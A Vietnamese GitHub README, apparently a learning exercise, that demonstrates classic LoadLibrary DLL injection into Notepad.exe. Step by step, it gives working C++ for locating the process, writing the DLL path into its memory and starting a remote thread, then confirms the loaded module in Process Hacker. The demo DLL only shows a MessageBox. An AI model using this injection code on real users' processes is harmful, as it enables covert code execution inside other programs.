




# Demo Dll Injection

## [1] TỔNG QUAN
- Loại dll injection: `Classic LoadLibrary injection`.
- Dll được attach ở đây là 1 dll tự custom khá cơ bản, chỉ hiện thị MessageBox với dòng chữ bất kỳ.
- Hàm được gọi trong dll sẽ chạy ngay khi được attach vào tiến trình và hiển thị MessageBox.
- Lưu ý:
    - Chương trình cần chạy để attach dll là chương trình x64 nên dll cũng là dll x64 tương ứng.
    - Dll được attach thực thi 1 hàm ngay khi được nạp vào tiến trình, tức là case `DLL_PROCESS_ATTACH`

## [2] PHÂN TÍCH
Vì loại injection mình demo ở phần này là loại classic nên sẽ khá cơ bản. Các bước inject thực hiện lần lượt như sau:

- **Bước 1:** Tìm tiến trình cần inject, sử dụng `CreateToolhelp32Snapshot`

    ```C
    auto hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe{};
    pe.dwSize = sizeof PROCESSENTRY32;
    BOOL isProcessFound = FALSE;
    if (Process32First(hSnapshot, &pe) == FALSE) {
        CloseHandle(hSnapshot);
        cout << "[!] Unable to take first process snapshot\n";
        return FALSE;
    }
    if (_wcsicmp(pe.szExeFile, processname) == 0) {
        CloseHandle(hSnapshot);
        processId = pe.th32ProcessID;
        isProcessFound = TRUE;
    }
    while (Process32Next(hSnapshot, &pe)) {
        if (_wcsicmp(pe.szExeFile, processname) == 0) {
            cout << "[+] Closing handle to process snapshot\n";
            CloseHandle(hSnapshot);
            processId = pe.th32ProcessID;
            cout << "[+] Found Process\n";
            isProcessFound = TRUE;
        }
    }
    ```

- **Bước 2:** Copy đường dẫn của dll vào vùng nhớ của tiến trình

    ```C
    auto hVictimProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, processId);
    if (hVictimProcess == NULL) {
        cout << "[!] Failed to open process\n";
        return FALSE;
    }
    auto pNameInVictimProcess = VirtualAllocEx(hVictimProcess, nullptr, size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pNameInVictimProcess == NULL) {
        cout << "[!] Allocation of memory failed!\n";
        return FALSE;
    }
    auto bStatus = WriteProcessMemory(hVictimProcess, pNameInVictimProcess, lpdllpath, size, nullptr);
    if (bStatus == 0) {
        cout << "[!] Failed to write memory to the process\n";
        return FALSE;
    }
    ```

- **Bước 3:** Lấy API `LoadLibraryW()` hoặc `LoadLibraryA()` từ `kernel32.dll`

    ```C
    auto hKernel32 = GetModuleHandle(L"kernel32.dll");
    if (hKernel32 == NULL) {
        cout << "[!] Unable to find Kernel32 in process!\n";
        return FALSE;
    }
    auto LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryW");
    if (LoadLibraryAddress == NULL) {
        if ((LoadLibraryAddress = GetProcAddress(hKernel32, "LoadLibraryA")) == NULL) {
            cout << "[!] LoadLibraryA failed as well!\n";
            return FALSE;
        }
    }
    ```

- **Bước 4:** Nạp dll vào tiến trình được cấp, lúc này, các hàm được gọi trong dll sẽ được thực thi

    ```C
    auto hThreadId = CreateRemoteThread(hVictimProcess, nullptr, 0, reinterpret_cast<LPTHREAD_START_ROUTINE>(LoadLibraryAddress), pNameInVictimProcess, NULL, nullptr);
    if (hThreadId == NULL) {
        cout << "[!] Failed to create remote process\n";
        return FALSE;
    }
    WaitForSingleObject(hThreadId, INFINITE);
    ```

- Để chương trình này hoạt động được, nó yêu cầu chạy chương trình với 2 tham số đầu vào là `target process` và `file dll`:
    
    ```
    Dll_Injection.exe <path/to/process_name> <path/to/dll>
    ```

- Nếu tất cả các bước trên thành công thì tiến trình mục tiêu sẽ bị inject dll và thực hiện các hành vi theo kịch bản của dll đó.

## [3] KẾT QUẢ KHI CHẠY CHƯƠNG TRÌNH
### [3.1] Chạy chương trình thử nghiệm
- Ở phần thử nghiệm này, mình sẽ demo attach dll vào tiến trình Notepad.exe.
- Trước tiên mình sẽ mở Notepad lên để nó có thể xuất hiện trong bảng tiến trình TaskManager.
- Tiếp theo mình chạy command `Dll_Injection.exe Notepad.exe basicdll.dll` rồi theo dõi.
- Kết quả:
    - Khi chạy xong command trên, 1 MessageBox hiện lên:

        
    
    - Khi nhấn "OK", chương trình sẽ tiếp tục chạy nốt và thông báo log đã inject thành công:

        

### [3.2] Kiểm tra sự hiện diện của dll
- Do chỉ chạy chương trình không như thế này, mình chỉ thấy nó hiện lên MessageBox như mình đã code mà không biết nó đã thực sự được inject vào như thế nào hay nó còn được attach vào tiến trình đó không nên mình sử dụng 1 công cụ theo dõi khá dễ dùng là `Process Hacker`.
- Công cụ này hiển thị chi tiết các tiến trình hơn so với Task Manager, nó có thể xem được các dll được load vào còn Task Manager thì không.
- Tại tiến trình `Notepad.exe`, mình chuột phải chọn `Properties` hoặc nhấn phím Enter.

    

- Sau đó chọn tab `Modules` sẽ thấy các dll được load vào tiến trình này, và 1 trong số đó có dll mà mình đã cung cấp cho nó trong command.

    

- Như vậy là dll này đã được load vào và tồn tại xuyên suốt quá trình mà tiến trình mục tiêu còn đang hoạt động. Ngược lại, khi tắt Notepad đi thì dll đó cũng sẽ được giải phóng.

## [4] PHỤ LỤC
- Code hoàn chỉnh: [main.cpp](Dll_Injection/main.cpp)
- Dll custom: [dllmain.cpp](../Code_To_Inject/Dll/basicdll/dllmain.cpp)
- Nguồn tham khảo: [DLL_Injection](https://github.com/rootm0s/Injectors/blob/master/InjectProc/InjectProc/injection.cpp#L56)
